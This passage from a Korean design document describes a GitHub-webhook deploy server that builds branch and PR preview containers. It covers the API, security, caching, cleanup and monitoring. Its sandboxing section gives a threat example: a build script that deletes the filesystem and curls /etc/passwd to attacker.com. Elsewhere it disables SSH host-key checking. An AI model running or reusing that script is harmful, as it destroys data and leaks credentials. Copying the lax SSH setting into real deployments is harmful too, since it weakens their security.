  -d @test/fixtures/push-event.json
```

#### HMAC 서명 생성 (테스트용)

```bash
# Node.js로 서명 생성
node -e "
const crypto = require('crypto');
const secret = 'your-webhook-secret';
const payload = require('fs').readFileSync('test/fixtures/push-event.json');
const signature = 'sha256=' + crypto.createHmac('sha256', secret).update(payload).digest('hex');
console.log(signature);
"
```

---

## 9. 배포 플로우

### 9.1 브랜치 배포 플로우



### 9.2 PR 프리뷰 플로우



---

## 10. API 엔드포인트

### 10.1 Webhook 엔드포인트

#### `POST /webhook`

GitHub Webhook 수신 엔드포인트

**Headers**:

```http
Content-Type: application/json
X-Hub-Signature-256: sha256=xxx
X-GitHub-Event: push
X-GitHub-Delivery: 12345678-1234-1234-1234-123456789012
```

**Request Body**: GitHub Webhook Payload (JSON)

**Response**:

```json
{
  "status": "queued",
  "buildId": "uuid-v4",
  "branch": "feature/login",
  "message": "Build queued successfully"
}
```

**Status Codes**:

- `200 OK`: Webhook 처리 성공 (빌드 큐에 추가)
- `400 Bad Request`: 유효하지 않은 페이로드 또는 서명 불일치
- `403 Forbidden`: 인증 실패
- `500 Internal Server Error`: 서버 에러

---

### 10.2 상태 조회 API

#### `GET /api/deployments`

모든 배포 목록 조회

**Response**:

```json
{
  "deployments": [
    {
      "id": "uuid-1",
      "branch": "feature/login",
      "commit": "a1b2c3d",
      "status": "success",
      "url": "https://feature-login.devom.dev",
      "createdAt": "2025-11-20T10:00:00Z",
      "duration": 180000
    },
    {
      "id": "uuid-2",
      "branch": "pr-123",
      "prNumber": 123,
      "commit": "e4f5g6h",
      "status": "building",
      "createdAt": "2025-11-20T10:05:00Z"
    }
  ]
}
```

---

#### `GET /api/deployments/:branch`

특정 브랜치의 배포 상태 조회

**Example**: `GET /api/deployments/feature-login`

**Response**:

```json
{
  "id": "uuid-1",
  "branch": "feature/login",
  "normalizedBranch": "feature-login",
  "commit": "a1b2c3d",
  "status": "success",
  "url": "https://feature-login.devom.dev",
  "buildLog": "/srv/deploy/logs/feature-login/a1b2c3d.log",
  "createdAt": "2025-11-20T10:00:00Z",
  "updatedAt": "2025-11-20T10:03:00Z",
  "duration": 180000
}
```

---

#### `GET /api/builds/:buildId/status`

특정 빌드의 실시간 상태 조회

**Response**:

```json
{
  "buildId": "uuid-1",
  "status": "building",
  "progress": {
    "current": "pnpm build",
    "percentage": 65
  },
  "logs": ["[10:00:01] Git clone completed", "[10:00:15] pnpm install completed", "[10:01:30] Building application..."]
}
```

---

#### `GET /api/builds/:buildId/logs`

빌드 로그 스트리밍

**Response**: Server-Sent Events (SSE)

```
data: [10:00:01] Starting build for feature/login
data: [10:00:05] Git clone in progress...
data: [10:00:15] pnpm install completed
data: [10:01:30] Building application...
```

---

#### `DELETE /api/deployments/:branch`

배포 환경 수동 삭제

**Response**:

```json
{
  "status": "deleted",
  "branch": "feature/login",
  "message": "Deployment deleted successfully"
}
```

---

### 10.3 헬스체크 API

#### `GET /healthz`

서버 헬스 체크

**Response**:

```json
{
  "status": "ok",
  "uptime": 3600,
  "disk": {
    "total": "500GB",
    "free": "350GB",
    "used": "150GB"
  },
  "docker": {
    "status": "connected",
    "containers": {
      "running": 5,
      "stopped": 2
    }
  },
  "queue": {
    "pending": 1,
    "building": 2
  }
}
```

---

#### `GET /metrics`

Prometheus 메트릭 (선택)

**Response** (Prometheus format):

```
# HELP deploy_builds_total Total number of builds
# TYPE deploy_builds_total counter
deploy_builds_total{status="success"} 42
deploy_builds_total{status="failed"} 3

# HELP deploy_build_duration_seconds Build duration in seconds
# TYPE deploy_build_duration_seconds histogram
deploy_build_duration_seconds_bucket{le="60"} 10
deploy_build_duration_seconds_bucket{le="120"} 35
deploy_build_duration_seconds_bucket{le="300"} 42
```

---

## 11. 로컬 개발 환경 설정

### 11.1 로컬 DNS 설정

프리뷰 환경을 로컬에서 테스트하려면 와일드카드 DNS 설정이 필요합니다.

#### macOS/Linux (dnsmasq 사용)

```bash
# 1. dnsmasq 설치
brew install dnsmasq  # macOS
# sudo apt install dnsmasq  # Ubuntu

# 2. 와일드카드 DNS 설정
echo 'address=/.app.local/127.0.0.1' >> /usr/local/etc/dnsmasq.conf

# 3. dnsmasq 재시작
sudo brew services restart dnsmasq  # macOS
# sudo systemctl restart dnsmasq  # Linux

# 4. macOS resolver 설정
sudo mkdir -p /etc/resolver
echo "nameserver 127.0.0.1" | sudo tee /etc/resolver/app.local
```

#### Windows (Acrylic DNS Proxy 사용)

1. [Acrylic DNS Proxy](https://mayakron.altervista.org/support/acrylic/Home.htm) 다운로드 및 설치
2. 설정 파일에 추가:
   ```
   *.app.local=127.0.0.1
   ```
3. DNS를 127.0.0.1로 변경

#### 수동 설정 (/etc/hosts)

간단한 테스트용으로는 `/etc/hosts` 직접 편집:

```bash
sudo nano /etc/hosts

# 추가
127.0.0.1 feature-login.app.local
127.0.0.1 pr-123.app.local
127.0.0.1 fix-bug.app.local
```

---

### 11.2 로컬 TLS 인증서 (mkcert)

브라우저에서 HTTPS 경고 없이 테스트하려면 로컬 인증서 필요:

```bash
# 1. mkcert 설치
brew install mkcert  # macOS
# sudo apt install mkcert  # Ubuntu
# choco install mkcert  # Windows

# 2. 로컬 CA 설치
mkcert -install

# 3. 와일드카드 인증서 생성
cd deploy-server
mkdir -p traefik/certs
mkcert -cert-file traefik/certs/local-cert.pem \
       -key-file traefik/certs/local-key.pem \
       "*.app.local" app.local

# 4. Traefik 설정에 인증서 경로 추가
# (docker-compose.yml 또는 traefik.yml에서)
```

---

### 11.3 로컬 Traefik 설정

`docker-compose.local.yml`:

```yaml
version: "3.8"

services:
  traefik:
    image: traefik:v3.0
    container_name: traefik-local
    ports:
      - "80:80"
      - "443:443"
      - "8080:8080" # 대시보드
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock:ro
      - ./traefik/certs:/certs:ro
    command:
      - "--api.dashboard=true"
      - "--api.insecure=true"
      - "--providers.docker=true"
      - "--providers.docker.exposedbydefault=false"
      - "--entrypoints.web.address=:80"
      - "--entrypoints.websecure.address=:443"
      - "--providers.file.directory=/certs"
      - "--providers.file.watch=true"
    labels:
      - "traefik.enable=true"

networks:
  default:
    name: deploy-network
```

실행:

```bash
docker-compose -f docker-compose.local.yml up -d
```

---

## 12. 보안 고려사항

### 12.1 Webhook 보안

#### HMAC 서명 검증 (필수)

```typescript
import crypto from "crypto"

function verifyWebhookSignature(payload: string, signature: string, secret: string): boolean {
  const expectedSignature = "sha256=" + crypto.createHmac("sha256", secret).update(payload).digest("hex")

  // Timing-safe 비교
  return crypto.timingSafeEqual(Buffer.from(signature), Buffer.from(expectedSignature))
}
```

#### 중복 Webhook 방지

```typescript
const processedDeliveries = new Set<string>()

fastify.post("/webhook", async (request, reply) => {
  const deliveryId = request.headers["x-github-delivery"]

  if (processedDeliveries.has(deliveryId)) {
    return reply.code(200).send({ status: "duplicate" })
  }

  processedDeliveries.add(deliveryId)
  // ... 나머지 로직
})
```

#### IP 화이트리스트 (선택)

GitHub Webhook IP 범위:

- [GitHub Meta API](https://api.github.com/meta)에서 최신 IP 목록 확인

```typescript
const GITHUB_WEBHOOK_IPS = [
  "192.30.252.0/22",
  "185.199.108.0/22",
  "140.82.112.0/20",
  // ... (정기적으로 업데이트 필요)
]

function isGitHubIP(ip: string): boolean {
  // IP 범위 체크 로직
  return GITHUB_WEBHOOK_IPS.some((range) => ipInRange(ip, range))
}
```

#### Rate Limiting

```typescript
import rateLimit from "@fastify/rate-limit"

fastify.register(rateLimit, {
  max: 100, // 최대 요청 수
  timeWindow: "1 minute", // 시간 윈도우
})
```

---

### 12.2 컨테이너 보안

#### 비권한 사용자로 실행

```dockerfile
FROM nginx:alpine

# 비권한 사용자 생성
RUN addgroup -g 1001 appuser && \
    adduser -D -u 1001 -G appuser appuser

# 파일 소유권 변경
COPY --chown=appuser:appuser ./dist /usr/share/nginx/html

USER appuser

EXPOSE 8080
CMD ["nginx", "-g", "daemon off;"]
```

#### 리소스 제한

```bash
docker run -d \
  --name feature-login \
  --memory="512m" \           # 메모리 제한
  --memory-swap="512m" \       # 스왑 비활성화
  --cpus="0.5" \               # CPU 제한
  --pids-limit=100 \           # 프로세스 수 제한
  --read-only \                # 읽기 전용 파일시스템
  --tmpfs /tmp:rw,noexec,nosuid,size=100m \
  feature-login:latest
```

#### 네트워크 격리

```bash
# 커스텀 네트워크 생성
docker network create --driver bridge deploy-network

# 컨테이너를 격리된 네트워크에 연결
docker run -d \
  --network deploy-network \
  --name feature-login \
  feature-login:latest
```

---

### 12.3 환경 변수 보안

#### Secrets 관리

```bash
# .env 파일 권한 설정
chmod 600 .env

# .gitignore에 추가
echo ".env" >> .gitignore
```

#### Docker Secrets 사용 (Swarm 모드)

```yaml
# docker-compose.yml
version: "3.8"

services:
  deploy-server:
    image: deploy-server:latest
    secrets:
      - github_webhook_secret
      - github_token

secrets:
  github_webhook_secret:
    external: true
  github_token:
    external: true
```

---

### 12.4 SSH 키 관리

프로덕션에서는 읽기 전용 deploy key 사용:

```bash
# 1. SSH 키 생성 (비밀번호 없음)
ssh-keygen -t ed25519 -C "deploy-server@devom.dev" -f ~/.ssh/deploy_key -N ""

# 2. GitHub에 Deploy Key 등록
# Repository → Settings → Deploy keys → Add deploy key
# (읽기 권한만 부여)

# 3. SSH 설정
cat >> ~/.ssh/config <<EOF
Host github.com
  IdentityFile ~/.ssh/deploy_key
  StrictHostKeyChecking no
EOF

chmod 600 ~/.ssh/config
```

#### SSH 키 주입 방법

Deploy Server 컨테이너 또는 프로세스에 SSH 키를 안전하게 주입하는 방법:

**방법 1: Docker Volume 마운트 (개발 환경)**

```yaml
# docker-compose.yml
services:
  deploy-server:
    image: deploy-server:latest
    volumes:
      - ~/.ssh/deploy_key:/root/.ssh/id_ed25519:ro # 읽기 전용
      - ~/.ssh/known_hosts:/root/.ssh/known_hosts:ro
    environment:
      - GIT_SSH_COMMAND=ssh -i /root/.ssh/id_ed25519 -o StrictHostKeyChecking=no
```

**방법 2: Docker Secrets (프로덕션, Swarm 모드)**

```bash
# 1. Secret 생성
docker secret create deploy_ssh_key ~/.ssh/deploy_key

# 2. docker-compose.yml
services:
  deploy-server:
    image: deploy-server:latest
    secrets:
      - deploy_ssh_key
    environment:
      - GIT_SSH_COMMAND=ssh -i /run/secrets/deploy_ssh_key -o StrictHostKeyChecking=no

secrets:
  deploy_ssh_key:
    external: true
```

**방법 3: ssh-agent Forwarding (로컬 개발)**

```bash
# 1. ssh-agent 시작
eval $(ssh-agent -s)
ssh-add ~/.ssh/deploy_key

# 2. Docker 실행 시 소켓 마운트
docker run -v $SSH_AUTH_SOCK:/ssh-agent -e SSH_AUTH_SOCK=/ssh-agent deploy-server
```

**보안 체크리스트**:

- ✅ SSH 키 파일 권한: `chmod 400`
- ✅ 컨테이너에서 읽기 전용 마운트
- ✅ GitHub Deploy Key 사용 (읽기 전용 권한)
- ✅ 키 노출 방지: `.gitignore`, Docker 이미지에 포함 금지

---

### 12.5 빌드 격리 (Sandboxing)

빌드 프로세스는 외부 코드(레포지토리)를 실행하므로 **가장 큰 보안 위험**입니다. 악성 코드가 빌드 스크립트를 통해 서버에 접근하는 것을 방지해야 합니다.

#### 위협 시나리오

```javascript
// package.json의 악성 스크립트 예시
{
  "scripts": {
    "build": "rm -rf / || curl http://attacker.com/steal?data=$(cat /etc/passwd)"
  }
}
```

#### 격리 전략

**레벨 1: 프로세스 격리 (최소한의 보호)**

```typescript
import { spawn } from "child_process"

// 제한된 권한으로 빌드 실행
const build = spawn("pnpm", ["build"], {
  cwd: workDir,
  uid: 1001, // 비권한 사용자
  gid: 1001,
  timeout: 600000, // 10분 타임아웃
})
```

**레벨 2: Docker 컨테이너 격리 (권장)**

```typescript
// Ephemeral Build Container
await docker.run(
  "node:20-alpine",
  [
    "sh",
    "-c",
    `
  git clone --depth 1 -b ${branch} ${REPO_SSH_URL} /workspace &&
  cd /workspace &&
  pnpm install --frozen-lockfile &&
  pnpm build
`,
  ],
  process.stdout,
  {
    name: `build-${branch}-${Date.now()}`,
    HostConfig: {
      Memory: 2 * 1024 * 1024 * 1024, // 2GB 메모리 제한
      CpuQuota: 100000, // 1 CPU
      NetworkMode: "none", // 네트워크 차단 (optional)
      ReadonlyRootfs: false, // pnpm install을 위해 쓰기 필요
      CapDrop: ["ALL"], // 모든 권한 제거
      SecurityOpt: ["no-new-privileges"], // 권한 상승 금지
    },
    AutoRemove: true,
  }
)
```

**레벨 3: gVisor (최고 수준 격리)**

```yaml
# docker-compose.yml
services:
  build-worker:
    image: node:20-alpine
    runtime: runsc # gVisor 런타임
    security_opt:
      - no-new-privileges
    cap_drop:
      - ALL
```

#### 파일시스템 격리

```typescript
// 호스트 파일시스템 보호
const secureBinds = [
  `${CACHE_DIR}/pnpm:/cache/pnpm:rw`, // 캐시만 공유
  `${BUILD_DIR}:/output:rw`, // 빌드 결과물만 저장
]

// 민감한 디렉토리는 절대 마운트 금지
// ❌ /etc, /var, /root, /home
```

#### 네트워크 격리

```typescript
// 빌드 중 외부 네트워크 접근 차단 (선택)
HostConfig: {
  NetworkMode: 'none', // 완전 차단
}

// 또는 제한적 허용 (npm registry만)
HostConfig: {
  NetworkMode: 'deploy-build-network',
  DnsSearch: ['registry.npmjs.org'],
}
```

#### 빌드 타임아웃

```typescript
const BUILD_TIMEOUT = parseInt(process.env.BUILD_TIMEOUT || "600000") // 10분

const buildPromise = docker.run(/* ... */)
const timeoutPromise = new Promise((_, reject) => setTimeout(() => reject(new Error("Build timeout")), BUILD_TIMEOUT))

try {
  await Promise.race([buildPromise, timeoutPromise])
} catch (error) {
  // 타임아웃 시 컨테이너 강제 종료
  await docker.kill(containerName)
  await docker.remove(containerName)
  throw error
}
```

#### 리소스 모니터링

```typescript
// 빌드 중 리소스 사용량 모니터링
const stats = await docker.getContainer(containerName).stats({ stream: false })

if (stats.memory_stats.usage > 2 * 1024 * 1024 * 1024) {
  logger.warn(`Build ${branch} exceeds memory limit`)
  await docker.kill(containerName)
}
```

---

## 13. 성능 목표

### 13.1 핵심 성능 지표 (KPI)

| 지표                  | 목표    | 측정 방법                 |
| --------------------- | ------- | ------------------------- |
| **빌드 시간**         | < 3분   | Git clone → 배포 완료     |
| **Webhook 응답 시간** | < 200ms | POST /webhook 처리 시간   |
| **빌드 성공률**       | > 95%   | 성공 빌드 / 전체 빌드     |
| **동시 배포 환경 수** | ≥ 10개  | 동시에 실행 중인 컨테이너 |
| **디스크 사용량**     | < 80%   | 캐시 + 빌드 + 이미지      |
| **가용성**            | > 99%   | 월 단위 uptime            |

### 13.2 빌드 시간 최적화 목표

```
┌─────────────────────────────────────────────────┐
│ 빌드 단계별 목표 시간                              │
├─────────────────────────────────────────────────┤
│ Git Clone (shallow)      │ < 10초              │
│ pnpm install (캐시 히트)  │ < 30초              │
│ pnpm build               │ < 90초              │
│ Docker 이미지 빌드        │ < 30초              │
│ 컨테이너 시작             │ < 5초               │
├─────────────────────────────────────────────────┤
│ 총 예상 시간             │ < 3분 (165초)        │
└─────────────────────────────────────────────────┘
```

### 13.3 리소스 사용 목표

#### 서버 리소스

- **CPU 사용률**: 평균 < 50%, 피크 < 80%
- **메모리 사용률**: 평균 < 60%, 피크 < 85%
- **디스크 I/O**: 평균 < 100MB/s

#### 컨테이너별 리소스

- **메모리**: 512MB (정적 사이트), 1GB (SSR)
- **CPU**: 0.5 core (일반), 1 core (빌드 중)

---

## 14. 예시 시나리오

### 14.1 시나리오 1: 새 기능 개발

**상황**: 개발자가 로그인 기능을 개발 중

```bash
# 1. 개발자가 feature 브랜치 생성
git checkout -b feature/login

# 2. 코드 작성 및 커밋
git add .
git commit -m "feat: add login form"

# 3. GitHub에 푸시
git push origin feature/login
```

**Deploy Server 동작**:

1. GitHub Webhook 수신: `push` 이벤트
2. 브랜치 필터링: `feature/login` → 허용됨
3. 빌드 큐에 추가
4. 빌드 시작:
   ```
   [10:00:00] Cloning repository...
   [10:00:10] Installing dependencies...
   [10:00:40] Building application...
   [10:02:10] Build completed successfully
   ```
5. Docker 컨테이너 실행: `feature-login`
6. Traefik 라우팅 자동 설정
7. **결과**: https://feature-login.devom.dev 접근 가능

**사용자 경험**:

- ⏱️ 푸시 후 **2분 30초** 내에 프리뷰 환경 접근 가능
- 📧 Slack 알림: "feature/login 배포 완료 🚀"

---

### 14.2 시나리오 2: Pull Request 리뷰

**상황**: 개발자가 PR을 생성하고 리뷰어가 확인

```bash
# 1. GitHub에서 PR #123 생성
# feature/login → main
```

**Deploy Server 동작**:

1. GitHub Webhook 수신: `pull_request` 이벤트 (action: opened)
2. 빌드 프로세스 시작
3. 컨테이너 실행: `preview-pr-123`
4. GitHub API로 PR에 코멘트 추가:

   ```
   🚀 Preview deployed!

   URL: https://pr-123.devom.dev
   Branch: feature/login
   Commit: a1b2c3d

   Build time: 2m 15s
   ```

**리뷰어 액션**:

1. PR에서 프리뷰 URL 클릭
2. 실제 동작하는 로그인 폼 테스트
3. 버그 발견 → 코멘트 작성

**개발자 수정**:

```bash
# 개발자가 코드 수정 후 푸시
git add .
git commit -m "fix: validation error"
git push origin feature/login
```

**Deploy Server 동작**:

1. Webhook 수신: `pull_request` 이벤트 (action: synchronize)
2. 기존 컨테이너 중지
3. 재빌드
4. 새 컨테이너 실행
5. PR 코멘트 업데이트:

   ```
   🔄 Preview updated!

   URL: https://pr-123.devom.dev
   Commit: e4f5g6h (updated)
   Build time: 2m 10s
   ```

**PR 병합 후**:

```bash
# PR 병합
```

**Deploy Server 동작**:

1. Webhook 수신: `pull_request` 이벤트 (action: closed)
2. 컨테이너 삭제: `preview-pr-123`
3. 이미지 삭제: `pr-123:*`
4. 빌드 디렉토리 정리
5. PR 코멘트 추가:
   ```
   🗑️ Preview environment deleted
   ```

---

### 14.3 시나리오 3: 빌드 실패 처리

**상황**: 잘못된 코드로 인한 빌드 실패

```bash
# 개발자가 잘못된 코드 푸시
git push origin feature/buggy-code
```

**Deploy Server 동작**:

1. 빌드 시작
2. pnpm build 실패:
   ```
   [10:00:00] Cloning repository...
   [10:00:10] Installing dependencies...
   [10:00:40] Building application...
   [10:01:30] Error: Type error in src/App.tsx
   [10:01:30] Build failed
   ```
3. 에러 로그 저장: `/srv/deploy/logs/feature-buggy-code/abc123.log`
4. GitHub Status API: ❌ failure
5. Slack 알림:

   ```
   ⚠️ Build failed: feature/buggy-code

   Commit: abc123
   Error: Type error in src/App.tsx

   View logs: https://deploy.devom.dev/api/builds/uuid-1/logs
   ```

**개발자 액션**:

1. Slack 알림에서 로그 링크 클릭
2. 에러 확인
3. 코드 수정 후 재푸시

---

## 15. 디렉토리 구조

### 15.1 프로젝트 구조

```
deploy-server/
├── src/
│   ├── config/
│   │   ├── env.ts              # 환경변수 로드 및 검증
│   │   └── constants.ts        # 상수 정의
│   ├── webhook/
│   │   ├── handler.ts          # Webhook 핸들러
│   │   ├── verify.ts           # HMAC 서명 검증
│   │   └── parser.ts           # Payload 파싱
│   ├── build/
│   │   ├── queue.ts            # 빌드 큐 관리
│   │   ├── worker.ts           # 빌드 워커
│   │   └── logger.ts           # 빌드 로그 저장
│   ├── docker/
│   │   ├── image.ts            # Docker 이미지 빌드
│   │   ├── container.ts        # 컨테이너 관리
│   │   └── cleanup.ts          # 이미지/컨테이너 정리
│   ├── git/
│   │   ├── clone.ts            # Git clone
│   │   └── utils.ts            # 브랜치명 정규화 등
│   ├── router/
│   │   ├── traefik.ts          # Traefik 라벨 생성
│   │   └── domain.ts           # 도메인 매핑
│   ├── state/
│   │   ├── database.ts         # SQLite 연결
│   │   └── deployment.ts       # 배포 상태 CRUD
│   ├── notify/
│   │   ├── slack.ts            # Slack 알림
│   │   ├── discord.ts          # Discord 알림
│   │   └── github.ts           # GitHub Status API
│   ├── api/
│   │   ├── routes/
│   │   │   ├── deployments.ts  # GET /api/deployments
│   │   │   ├── builds.ts       # GET /api/builds
│   │   │   └── health.ts       # GET /healthz
│   │   └── server.ts           # Fastify 서버 설정
│   ├── utils/
│   │   ├── logger.ts           # Winston 로거
│   │   ├── errors.ts           # 에러 핸들링
│   │   └── fs.ts               # 파일시스템 유틸
│   └── index.ts                # 진입점
├── templates/
│   ├── nginx.Dockerfile        # Nginx Dockerfile 템플릿
│   ├── node.Dockerfile         # Node.js Dockerfile 템플릿
│   └── nginx.conf              # Nginx 설정 템플릿
├── test/
│   ├── fixtures/
│   │   ├── push-event.json
│   │   └── pr-event.json
│   ├── unit/
│   │   ├── webhook.test.ts
│   │   └── docker.test.ts
│   └── integration/
│       └── e2e.test.ts
├── scripts/
│   ├── setup.sh                # 초기 설정 스크립트
│   └── cleanup.sh              # 수동 정리 스크립트
├── .env.example
├── .gitignore
├── docker-compose.yml          # Traefik 설정
├── package.json
├── tsconfig.json
└── README.md
```

### 15.2 런타임 디렉토리 구조

```
/srv/deploy-server/
├── workspace/                  # 빌드 작업 디렉토리
│   ├── feature-login/
│   │   ├── .git/
│   │   ├── dist/               # 빌드 결과물
│   │   ├── node_modules/
│   │   └── package.json
│   ├── pr-123/
│   └── fix-bug-456/
├── logs/                       # 빌드 로그
│   ├── feature-login/
│   │   ├── a1b2c3d.log
│   │   └── e4f5g6h.log
│   └── pr-123/
│       └── i7j8k9l.log
├── cache/                      # 캐시 디렉토리
│   ├── pnpm-store/             # pnpm 공유 스토어
│   └── docker/                 # Docker 빌드 캐시
├── state/                      # 배포 상태 저장
│   ├── deployments.db          # SQLite DB
│   └── processed-webhooks.json # 처리된 웹훅 ID
└── traefik/
    ├── acme.json               # Let's Encrypt 인증서
    └── config/
        └── dynamic.yml         # 동적 설정
```

---

## 16. 캐싱 전략

### 16.1 pnpm Store 캐싱

pnpm의 content-addressable store를 활용하여 의존성 재사용:

#### 옵션 1: 호스트 디렉토리 공유

```bash
# 공유 pnpm store 설정
export PNPM_HOME="/srv/deploy-server/cache/pnpm-store"

# 빌드 스크립트에서 사용
pnpm install --frozen-lockfile --store-dir $PNPM_HOME
```

#### 옵션 2: Docker Volume 활용 (권장)

```yaml
# docker-compose.yml
version: "3.8"

services:
  deploy-server:
    image: deploy-server:latest
    volumes:
      - pnpm-store:/cache/pnpm
      - build-workspace:/srv/deploy/workspace
    environment:
      - PNPM_HOME=/cache/pnpm
      - WORK_DIR=/srv/deploy/workspace

volumes:
  pnpm-store:
    driver: local
  build-workspace:
    driver: local
```

빌드 컨테이너에서 볼륨 사용:

```typescript
// 빌드 컨테이너에 pnpm store 볼륨 마운트
await docker.run(
  "node:20-alpine",
  [
    "sh",
    "-c",
    `
  cd /workspace &&
  pnpm config set store-dir /cache/pnpm &&
  pnpm install --frozen-lockfile &&
  pnpm build
`,
  ],
  process.stdout,
  {
    name: `build-${branch}`,
    HostConfig: {
      Binds: [
        "pnpm-store:/cache/pnpm", // 공유 캐시
        `${WORK_DIR}/${branch}:/workspace`, // 작업 디렉토리
      ],
    },
  }
)
```

**효과**:

- 첫 빌드: ~60초
- 캐시 히트: ~15초 (4배 빠름)
- 브랜치 간 의존성 공유
- 서버 재시작 후에도 캐시 유지

**볼륨 관리**:

```bash
# 볼륨 크기 확인
docker volume inspect pnpm-store | jq '.[0].Mountpoint'
du -sh /var/lib/docker/volumes/pnpm-store

# 캐시 정리 (선택)
docker volume rm pnpm-store
docker volume create pnpm-store
```

---

### 16.2 Docker 레이어 캐싱

BuildKit 활성화 및 멀티 스테이지 빌드:

```dockerfile
# syntax=docker/dockerfile:1

FROM node:20-alpine AS builder
WORKDIR /app

# 의존성 먼저 복사 (캐시 활용)
COPY package.json pnpm-lock.yaml ./
RUN pnpm install --frozen-lockfile

# 소스 코드 복사
COPY . .
RUN pnpm build

FROM nginx:alpine
COPY --from=builder /app/dist /usr/share/nginx/html
```

**BuildKit 활성화**:

```bash
export DOCKER_BUILDKIT=1
docker build --build-arg BUILDKIT_INLINE_CACHE=1 -t feature-login:latest .
```

---

### 16.3 Git Clone 캐싱

Shallow clone으로 대역폭 절약:

```bash
# 전체 히스토리 클론 (느림)
git clone git@github.com:dabom/devom.git

# Shallow clone (빠름)
git clone --depth 1 --branch feature/login git@github.com:dabom/devom.git
```

**효과**:

- 전체 클론: ~30초
- Shallow 클론: ~5초 (6배 빠름)

---

### 16.4 빌드 산출물 캐싱

동일한 commit SHA에 대해서는 재빌드 스킵:

```typescript
interface BuildCache {
  commit: string
  branch: string
  buildPath: string
  timestamp: Date
}

async function shouldRebuild(branch: string, commit: string): Promise<boolean> {
  const cached = await getBuildCache(branch)

  if (cached && cached.commit === commit) {
    console.log("Build cache hit, skipping rebuild")
    return false
  }

  return true
}
```

---

## 17. 정리 정책

### 17.1 이미지 정리

동일 브랜치의 최근 N개 보관, 나머지 삭제:

```typescript
const MAX_IMAGES_PER_BRANCH = 3

async function cleanupOldImages(branch: string) {
  const images = await docker.listImages({
    filters: { reference: [`${branch}:*`] },
  })

  // 생성일 기준 정렬
  images.sort((a, b) => b.Created - a.Created)

  // 최근 3개 제외하고 삭제
  const toDelete = images.slice(MAX_IMAGES_PER_BRANCH)

  for (const image of toDelete) {
    await docker.removeImage(image.Id)
    console.log(`Deleted old image: ${image.Id}`)
  }
}
```

---

### 17.2 컨테이너 정리

PR 종료 시 즉시 삭제:

```typescript
fastify.post("/webhook", async (request) => {
  const payload = request.body as PullRequestWebhookPayload

  if (payload.action === "closed") {
    const prNumber = payload.number
    const containerName = `preview-pr-${prNumber}`

    // 1. 컨테이너 중지 및 삭제
    await docker.stopContainer(containerName)
    await docker.removeContainer(containerName)

    // 2. 이미지 삭제
    await docker.removeImage(`pr-${prNumber}:latest`)

    // 3. 빌드 디렉토리 삭제
    await fs.rm(`${WORK_DIR}/pr-${prNumber}`, { recursive: true })

    console.log(`Cleaned up PR #${prNumber}`)
  }
})
```

---

### 17.3 빌드 디렉토리 정리

7일 이상 경과한 디렉토리 삭제:

```typescript
import { cron } from "node-cron"

// 매일 새벽 3시 실행
cron.schedule("0 3 * * *", async () => {
  const RETENTION_DAYS = 7
  const cutoffDate = new Date()
  cutoffDate.setDate(cutoffDate.getDate() - RETENTION_DAYS)

  const workspaceDirs = await fs.readdir(WORK_DIR)

  for (const dir of workspaceDirs) {
    const dirPath = path.join(WORK_DIR, dir)
    const stats = await fs.stat(dirPath)

    if (stats.mtime < cutoffDate) {
      await fs.rm(dirPath, { recursive: true })
      console.log(`Deleted old build directory: ${dir}`)
    }
  }
})
```

---

### 17.4 Dangling 이미지 정리

태그 없는 이미지 주기적으로 삭제:

```bash
# Cron job: 매일 새벽 2시
0 2 * * * docker image prune -f >> /var/log/docker-prune.log 2>&1
```

또는 TypeScript로:

```typescript
import { exec } from "child_process"
import { promisify } from "util"

const execAsync = promisify(exec)

cron.schedule("0 2 * * *", async () => {
  try {
    const { stdout } = await execAsync("docker image prune -f")
    console.log("Docker image prune:", stdout)
  } catch (error) {
    console.error("Docker prune failed:", error)
  }
})
```

---

## 18. 모니터링

### 18.1 헬스체크

#### HTTP 헬스체크

```typescript
fastify.get("/healthz", async (request, reply) => {
  try {
    // Docker 연결 확인
    await docker.ping()

    // 디스크 공간 확인
    const { stdout } = await execAsync("df -h /srv/deploy-server")

    return {
      status: "ok",
      uptime: process.uptime(),
      timestamp: new Date().toISOString(),
      disk: parseDiskUsage(stdout),
      docker: "connected",
    }
  } catch (error) {
    reply.code(503)
    return {
      status: "error",
      error: error.message,
    }
  }
})
```

---

### 18.2 빌드 로그

#### 구조화된 로그

```typescript
import winston from "winston"

const logger = winston.createLogger({
  format: winston.format.combine(winston.format.timestamp(), winston.format.json()),
  transports: [
    new winston.transports.File({
      filename: "/srv/deploy-server/logs/app.log",
    }),
    new winston.transports.Console({
      format: winston.format.simple(),
    }),
  ],
})

// 사용 예시
logger.info("Build started", {
  branch: "feature/login",
  commit: "a1b2c3d",
  buildId: "uuid-1",
})
```

---

### 18.3 메트릭 수집

#### Prometheus 메트릭

```typescript
import { register, Counter, Histogram } from "prom-client"

// 빌드 카운터
const buildCounter = new Counter({
  name: "deploy_builds_total",
  help: "Total number of builds",
  labelNames: ["status", "branch"],
})

// 빌드 소요 시간
const buildDuration = new Histogram({
  name: "deploy_build_duration_seconds",
  help: "Build duration in seconds",
  buckets: [30, 60, 120, 300, 600],
})

// 메트릭 엔드포인트
fastify.get("/metrics", async (request, reply) => {
  reply.header("Content-Type", register.contentType)
  return register.metrics()
})
```

---

### 18.4 알림

#### Slack 알림

```typescript
async function sendSlackNotification(deployment: Deployment) {
  if (!process.env.SLACK_WEBHOOK_URL) return

  const message =
    deployment.status === "success"
      ? `✅ Deployment succeeded: ${deployment.branch}\nURL: ${deployment.url}`
      : `❌ Deployment failed: ${deployment.branch}\nError: ${deployment.buildLog}`

  await fetch(process.env.SLACK_WEBHOOK_URL, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ text: message }),
  })
}
```

#### Discord 알림

```typescript
async function sendDiscordNotification(deployment: Deployment) {
  if (!process.env.DISCORD_WEBHOOK_URL) return

  const embed = {
    title: deployment.status === "success" ? "✅ Deployment Success" : "❌ Deployment Failed",
    description: `Branch: ${deployment.branch}\nCommit: ${deployment.commit}`,
    url: deployment.url,
    color: deployment.status === "success" ? 0x00ff00 : 0xff0000,
    timestamp: new Date().toISOString(),
  }

  await fetch(process.env.DISCORD_WEBHOOK_URL, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ embeds: [embed] }),
  })
}
```

---

## 19. 빌드 환경 표준화

### 21.1 개요

여러 프로젝트에 Deploy Server를 적용할 때 프로젝트마다 다른 빌드 명령, 출력 디렉토리, 환경 설정이 필요합니다. 표준화된 설정 파일을 통해 일관된 빌드 환경을 제공합니다.

### 21.2 설정 파일: `.deploy.yml`

